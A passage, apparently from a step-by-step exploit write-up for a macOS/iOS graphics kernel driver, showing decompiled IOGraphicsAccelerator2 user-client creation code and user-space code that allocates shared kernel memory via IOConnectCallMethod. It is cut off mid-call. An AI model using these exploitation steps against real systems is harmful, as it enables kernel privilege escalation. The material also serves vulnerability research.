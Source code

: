 ```cpp
      }
      break;
    case 5:                                     // kIOAccelDevice2Type
      v22 = a1->IOGA2_vt->__ZN22IOGraphicsAccelerator29newDeviceEv((IOGraphicsAccelerator2 *)a1);
      v19 = (IOUserClient *)v22;
      if ( v22 )
      {
        if ( !IOAccelDevice2::init(v22, 0, a2) )
          goto LABEL_22;
        goto LABEL_26;
      }
      break;
    default:
      v21 = a1->IOGA2_vt->__ZN22IOGraphicsAccelerator210newContextEj((IOGraphicsAccelerator2 *)a1, type);
      v19 = (IOUserClient *)v21;
      if ( !v21 )
        return 0xE00002C2LL;
      if ( IOAccelContext2::init(v21, 0, a2) )
      {
LABEL_26:
        if ( ((unsigned int (__fastcall *)(IOUserClient *, struct_a1 *))v19->attach)(v19, a1) )
        {
          v9 = 0;
          *a5 = v19;
        }
        else
        {
LABEL_40:
          ((void (__fastcall *)(IOUserClient *))v19->release_0)(v19);
          v9 = 0xE00002C9LL;
        }
      }
      else
      {
LABEL_22:
        ((void (__fastcall *)(IOUserClient *))v19->release_0)(v19);
      }
      break;
  }
  return v9;
}
```

## 2. Creating shared memory

Allocate two shared memory regions (shared between the kernel and the user process), each with a size of 0x4000.

```cpp
const int IOAccelSharedUserClient2_create_shmem_selector = 5;
...
static struct IOAccelDeviceShmemData *
IOAccelSharedUserClient2_create_shmem(io_connect_t IOAccelSharedUserClient2, size_t size) {
    struct IOAccelDeviceShmemData *shmem = malloc(sizeof(*shmem));
    assert(shmem != NULL);
    size_t out_size = sizeof(*shmem);
    uint64_t shmem_size = size;
    kern_return_t kr = IOConnectCallMethod(IOAccelSharedUserClient2,
            IOAccelSharedUserClient2_create_shmem_selector,
            &shmem_size, 1,
            NULL, 0,
            NULL, NULL,
```